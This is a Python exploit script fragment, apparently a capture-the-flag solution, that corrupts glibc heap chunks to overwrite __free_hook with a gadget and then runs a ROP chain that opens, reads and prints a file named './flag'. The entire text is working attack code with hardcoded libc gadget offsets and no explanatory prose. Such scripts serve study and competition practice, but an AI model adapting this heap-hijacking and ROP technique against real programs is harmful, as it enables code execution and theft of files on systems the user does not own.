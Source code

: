 ```python

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)


sh.interactive()
```
